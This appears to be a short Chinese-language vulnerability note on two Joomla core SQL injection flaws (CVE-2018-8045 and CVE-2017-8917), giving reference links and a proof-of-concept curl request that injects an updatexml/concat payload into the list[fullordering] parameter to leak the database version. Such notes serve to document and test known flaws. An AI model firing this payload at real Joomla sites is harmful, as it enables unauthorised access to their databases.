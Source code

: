 ### CVE-2018-8045

后台 `filter[category_id]` SQL 注入漏洞

参考链接

* [【漏洞分析】Joomla内核SQL注入漏洞（CVE-2018-8045）分析](http://blog.nsfocus.net/cve-2018-804-analysis/)

### CVE-2017-8917 - com_fields fullordering 注入

参考链接

* [Joomla! 3.7 Core SQL Injection (CVE-2017-8917)](https://www.seebug.org/vuldb/ssvid-93113)

Poc

```
curl -g '127.0.0.1/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(2,concat(0x7e,(version())),0)'
```

